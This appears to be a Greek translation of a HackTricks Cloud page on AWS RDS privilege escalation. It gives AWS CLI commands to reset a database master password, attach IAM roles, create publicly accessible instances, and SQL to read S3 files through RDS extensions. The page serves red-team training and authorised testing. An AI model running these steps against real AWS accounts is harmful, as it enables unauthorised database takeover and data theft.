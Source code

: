 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Υπηρεσία Σχεσιακής Βάσης Δεδομένων

Για περισσότερες πληροφορίες σχετικά με το RDS ελέγξτε:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Με αυτή την άδεια, ένας επιτιθέμενος μπορεί να **τροποποιήσει τον κωδικό πρόσβασης του κύριου χρήστη**, και την είσοδο μέσα στη βάση δεδομένων:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Θα χρειαστεί να μπορείτε να **επικοινωνήσετε με τη βάση δεδομένων** (συνήθως είναι προσβάσιμες μόνο από εσωτερικά δίκτυα).
{% endhint %}

**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

### rds-db:connect

Σύμφωνα με τα [**έγγραφα**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), ένας χρήστης με αυτή την άδεια θα μπορούσε να συνδεθεί στην DB instance.

### Κατάχρηση δικαιωμάτων IAM ρόλου RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Αν εκτελώντας **`SELECT datname FROM pg_database;`** βρείτε μια βάση δεδομένων που ονομάζεται **`rdsadmin`**, ξέρετε ότι βρίσκεστε μέσα σε μια **βάση δεδομένων AWS postgresql**.
{% endhint %}

Αρχικά μπορείτε να ελέγξετε αν αυτή η βάση δεδομένων έχει χρησιμοποιηθεί για πρόσβαση σε οποιαδήποτε άλλη υπηρεσία AWS. Μπορείτε να το ελέγξετε κοιτάζοντας τις εγκατεστημένες επεκτάσεις:
```sql
SELECT * FROM pg_extension;
```
Αν βρείτε κάτι όπως **`aws_s3`** μπορείτε να υποθέσετε ότι αυτή η βάση δεδομένων έχει **κάποιο είδος πρόσβασης στο S3** (υπάρχουν άλλες επεκτάσεις όπως **`aws_ml`** και **`aws_lambda`**).

Επίσης, αν έχετε άδειες να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να δείτε εκεί αν το **cluster έχει οποιοδήποτε IAM Role συσχετισμένο** στο πεδίο **`AssociatedRoles`**. Αν υπάρχει, μπορείτε να υποθέσετε ότι η βάση δεδομένων ήταν **έτοιμη να έχει πρόσβαση σε άλλες υπηρεσίες AWS**. Βασισμένοι στο **όνομα του ρόλου** (ή αν μπορείτε να αποκτήσετε τις **άδειες** του ρόλου) θα μπορούσατε να **μαντέψετε** ποια επιπλέον πρόσβαση έχει η βάση δεδομένων.

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Αν είχατε **raw AWS credentials** θα μπορούσατε επίσης να τα χρησιμοποιήσετε για να αποκτήσετε πρόσβαση σε δεδομένα S3 με:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **δεν χρειάζεται να αλλάξει καμία μεταβλητή ομάδας παραμέτρων** για να μπορέσει να έχει πρόσβαση στο S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Μέσα σε ένα mysql, αν εκτελέσετε το ερώτημα **`SELECT User, Host FROM mysql.user;`** και υπάρχει ένας χρήστης που ονομάζεται **`rdsadmin`**, μπορείτε να υποθέσετε ότι βρίσκεστε μέσα σε μια **AWS RDS mysql db**.
{% endhint %}

Μέσα στο mysql εκτελέστε **`show variables;`** και αν οι μεταβλητές όπως **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, έχουν τιμές, μπορείτε να υποθέσετε ότι η βάση δεδομένων είναι προετοιμασμένη να έχει πρόσβαση σε δεδομένα S3.

Επίσης, αν έχετε δικαιώματα να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να ελέγξετε αν το cluster έχει κάποια **συσχετισμένη ρόλο**, που συνήθως σημαίνει πρόσβαση σε υπηρεσίες AWS).

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBCluster` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS παρουσία**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της παρουσίας.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.\
Σημειώστε ότι ορισμένες βάσεις δεδομένων απαιτούν επιπλέον ρυθμίσεις όπως το Mysql, το οποίο χρειάζεται να καθορίσει το ρόλο ARN στις ομάδες παραμέτρων επίσης.

### `rds:CreateDBInstance`

Μόνο με αυτή την άδεια, ένας επιτιθέμενος θα μπορούσε να δημιουργήσει μια **νέα παρουσία μέσα σε ένα κλάστερ** που ήδη υπάρχει και έχει συνημμένο ένα **ρόλο IAM**. Δεν θα μπορεί να αλλάξει τον κωδικό πρόσβασης του κύριου χρήστη, αλλά μπορεί να είναι σε θέση να εκθέσει τη νέα βάση δεδομένων στο διαδίκτυο:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `rds:CreateDBInstance` και `iam:PassRole` μπορεί **να δημιουργήσει μια νέα RDS instance με έναν καθορισμένο ρόλο συνημμένο**. Ο επιτιθέμενος μπορεί στη συνέχεια **να αποκτήσει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της instance.

{% hint style="warning" %}
Ορισμένες απαιτήσεις του ρόλου/προφίλ instance για να συνημεί (από [**εδώ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Το προφίλ πρέπει να υπάρχει στον λογαριασμό σας.
* Το προφίλ πρέπει να έχει έναν IAM ρόλο που η Amazon EC2 έχει άδειες να αναλάβει.
* Το όνομα του προφίλ instance και το σχετικό όνομα IAM ρόλου πρέπει να ξεκινούν με το πρόθεμα `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBInstance` και `iam:PassRole` μπορεί **να προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS παρουσία**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της παρουσίας.

{% hint style="warning" %}
Η DB παρουσία πρέπει να είναι εκτός ενός κλάσματος για αυτό
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα στην RDS instance.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
